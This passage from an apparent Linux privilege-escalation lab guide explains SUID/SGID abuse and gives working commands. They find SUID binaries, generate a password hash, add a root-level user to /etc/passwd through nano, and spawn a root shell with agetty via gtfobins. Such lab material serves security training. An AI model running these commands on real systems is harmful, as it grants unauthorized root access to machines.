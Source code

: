 ### Exploit
How does this help us gain root rights on a machine?
On gtfobins you can filter the programs on SUID.

From some programs, you can break out with the SUID/SGID flag set and spawn a root shell. If the SUID/SGID bit is set on an editor, you can alternatively also edit the `/etc/passwd` file and create a new user with root rights.

### Task
Find files with SUID/SGID bit and try to gain root rights.

### Solution
We look at which files have the SUD bit set.

```
find / -perm -u=s -user root 2>/dev/null
```

In the list, we find an editor (nano).
With it, we can edit the write-protected ˙/etc/passwd` file.

We generate a password hash for this.

```
openssl passwd -1 -salt foo password123
$1$foo$yKXUGOo1ZIgTvE6smA/W//
```

We add a new user with the generated password hash to the `/etc/passwd` file with nano.

```
jane:$1$foo$yKXUGOo1ZIgTvE6smA/W//:0:0:root:/root:/bin/bash
```

Or a little simpler: We spawn a root shell with agetty (found on [gtfobins](https://gtfobins.github.io/gtfobins/agetty/)):

```
agetty -o -p -l /bin/sh -a root tty
```

With the command `su jane` we can switch to the new user - and have a root shell.

### Lessons Learned
Search your system with the above `find` commands, which programs have the sticky bit set and check on [gtfobins](https://gtfobins.github.io/), if this can be exploited.

## Capabilities

Capabilities are a way to grant rights more granularly. If the admin doesn't want to give the user extended rights, they can give individual permissions to a tool. This allows the user to use the tool without getting permission errors, but they themselves do not have extended rights.

With the command `getcap`, executables with extended capabilities can be tracked down (to keep the output compact, we throw away the error outputs `2>/dev/null`).
